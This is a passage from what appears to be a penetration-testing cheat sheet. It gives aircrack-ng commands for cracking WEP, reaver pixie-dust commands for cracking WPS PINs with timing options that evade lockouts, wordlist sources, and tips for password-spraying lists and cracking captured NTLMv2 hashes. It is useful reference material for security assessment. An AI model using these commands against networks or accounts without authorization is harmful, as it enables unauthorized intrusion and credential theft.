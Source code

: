 Crack the WEP authentication:

```fundamental
aircrack-ng -e essid -b FF:FF:FF:FF:FF:FF airodump_essid_results*.cap
```

### WPS PIN

Crack a WPS PIN:

```fundamental
reaver -vv --pixie-dust -i wlan1 -c 8 -e essid -b FF:FF:FF:FF:FF:FF
```

Crack a WPS PIN with some delay between attempts:

```fundamental
reaver -vv --pixie-dust -N -L -d 5 -r 3:15 -T 0.5 -i wlan1 -c 8 -e essid -b FF:FF:FF:FF:FF:FF
```

## 4. Wordlists

You can find `rockyou.txt` wordlist located at `/usr/share/wordlists/` or in SecLists.

Download a useful collection of multiple types of lists for security assessments.

Installation:

```bash
apt-get update && apt-get install seclists
```

Lists will be stored at `/usr/share/seclists/`.

Or, manually download the collection from [GitHub](https://github.com/danielmiessler/SecLists/releases).

Another popular wordlists:

* [weakpass.com/wordlist](https://weakpass.com/wordlist)
* [packetstormsecurity.com/Crackers/wordlists](https://packetstormsecurity.com/Crackers/wordlists)

### Password Spraying

Find out how to generate a good password spraying wordlist from my other [project](https://github.com/ivan-sincek/wordlist-extender), but first you will need a few good keywords that describe your target.

Such keywords can be a company name and abbreviation or keywords that describe your target's services, products, etc.

After you generate the wordlist, use it with tool such as `aircrack-ng` to crack WPA/WPA2 handshakes.

If strong password policy is enforced, passwords usually start with one capitalized word followed by few digits and one special character at the end (e.g. Password123!).

You can also use the generated wordlist with [Hashcat](https://github.com/ivan-sincek/penetration-testing-cheat-sheet#hashcat), e.g. to crack NTLMv2 hashes that you have collected using LLMNR responder, etc.
